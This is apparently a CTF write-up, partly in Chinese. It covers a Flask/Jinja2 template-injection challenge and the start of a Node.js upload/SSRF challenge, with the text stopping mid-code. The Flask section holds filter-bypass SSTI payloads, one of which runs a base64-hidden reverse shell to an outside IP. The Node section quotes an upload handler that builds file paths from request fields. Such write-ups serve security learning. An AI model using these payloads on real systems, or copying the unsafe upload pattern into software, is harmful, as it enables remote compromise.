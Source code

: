 

### flaskapp



`{{1+1}}`

过滤`import,os`

```
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')}}
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')|attr('__subcl'+'asses__')()}}
{{''|attr('_'+'_class_'+'_')|attr('_'+'_ba'+'se_'+'_')|attr('__subcl'+'asses__')()|attr('__dict__')}}
{{config.__class__.__mro__[1].__subclasses__()[-2].__init__.__globals__['o'+'s'].__dict__['sys'+'tem']('echo aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIjM5LjEwOC4xNjQuMjE5Iiw2MDAwMykpCm9zLmR1cDIocy5maWxlbm8oKSwwKQpvcy5kdXAyKHMuZmlsZW5vKCksMSkKb3MuZHVwMihzLmZpbGVubygpLDIpCnA9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0p|base'+'64 -d | python')}}
```



### node_game

 https://github.com/nodejs/node/issues/13296 

 https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/ 

这题有个upload函数

```javascript
app.post('/file_upload', function(req, res){
    var ip = req.connection.remoteAddress;
    var obj = {
        msg: '',
    }
    if (!ip.includes('127.0.0.1')) {
        obj.msg="only admin's ip can use it"
        res.send(JSON.stringify(obj));
        return 
    }
    fs.readFile(req.files[0].path, function(err, data){
        if(err){
            obj.msg = 'upload failed';
            res.send(JSON.stringify(obj));
        }else{
            var file_path = '/uploads/' + req.files[0].mimetype +"/";
            var file_name = req.files[0].originalname
            var dir_file = __dirname + file_path + file_name
            if(!fs.existsSync(__dirname + file_path)){
                try {
                    fs.mkdirSync(__dirname + file_path)
                } catch (error) {
                    obj.msg = "file type error";
                    res.send(JSON.stringify(obj));
                    return
                }
            }
            try {
                fs.writeFileSync(dir_file,data)
                obj = {
                    msg: 'upload success',
                    filename: file_path + file_name
                } 
            } catch (error) {
                obj.msg = 'upload failed';
            }
```